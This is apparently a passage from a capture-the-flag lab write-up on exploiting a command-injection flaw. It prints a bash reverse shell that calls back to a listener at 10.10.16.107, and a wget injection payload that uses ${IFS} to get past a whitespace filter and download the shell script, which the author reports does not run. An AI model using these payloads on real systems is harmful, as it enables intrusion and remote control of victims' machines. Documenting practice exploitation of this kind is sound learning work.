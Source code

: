 ![](./IMG/23.png)
- So, I know how to bypass whitespace.
- Then I tried to create a reverse shell then using upload it to victim by command injection 
- The content of reverse shell 
```
!#/bin/bash

/bin/bash -i >& /dev/tcp/10.10.16.107/1338 0>&1
```
- Create a simpleHTTPServer and use the following command as payload to upload it to victim 
```
;wget${IFS}-O${IFS}-${IFS}http:/10.10.16.107:9797/shell1.sh;#
```
![](./IMG/24.png)
- But if using this payload, it only download file, it won't execute it.
![](./IMG/26.png)
- So I also tried to execute it by command injection, it still failed.